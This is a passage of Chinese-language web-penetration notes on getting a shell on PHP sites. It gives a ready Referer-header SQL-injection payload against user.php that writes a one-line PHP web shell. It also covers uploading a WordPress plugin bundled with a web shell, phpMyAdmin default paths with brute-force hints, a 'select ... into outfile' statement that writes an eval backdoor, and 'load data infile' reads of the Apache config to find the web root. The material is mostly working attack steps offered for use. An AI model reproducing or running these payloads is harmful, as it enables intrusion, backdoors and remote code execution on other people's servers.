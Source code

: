 ![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

2.修改文件  
库项目管理》配送方式

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

连接：http://192.168.1.10:8103/myship.php

3.前台getshell  
http://192.168.1.10:8103/user.php》刷新抓包》发送repeater：

```
`exp：``Referer: 554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:280:"*/ union select 1,0x272f2a,3,4,5,6,7,8,0x7b24617364275d3b617373657274286261736536345f6465636f646528275a6d6c735a56397764585266593239756447567564484d6f4a7a4575634768774a79776e50443977614841675a585a686243676b58314250553152624d544d7a4e3130704f79412f506963702729293b2f2f7d787878,10-- -";s:2:"id";s:3:"'/*";}`
```

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

会在网站根目录下生成1.php一句话木马，密码1337![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

**3.5wordpress上传插件**  
安装插件》上传插件》插件马(正常插件+大马压缩包)》上传成功  

```
`#插件马位置：``./wp-content/plugins/alipay-donate/webshell.php`
```

  

**4.phpmyadmin写shell**  
phpmyadmin 常见路径：phpmyadmin、pma、pmd、pm、phpmyadmin+版本号。或者端口号搭建888/999/8888/777。可尝试爆破登录：  
  

```
`#写shell语句``select '<?php eval($_POST[cmd]);?>' into outfile 'D:\SOFT\webbuild\php\WWW\aa.php'`
```

寻找网站根目录  
1.找mysql安装目录

```
select @@basedir;  

```

2.根据mysql安装路径推理出apache配置文件（记录了网站根目录）

```
./apache/conf/https.conf  

```

3.使用某个数据库，创建一个表用来读取apache的配置文件  

```
`use mysql;``create table xx(xx text);``load data infile "D:\SOFT\webbuild\php\Apache/conf/https.conf" into table xx;``select * from xx;``# 在搜索结果里面检索关键词documentroot找到网站根目录`
```
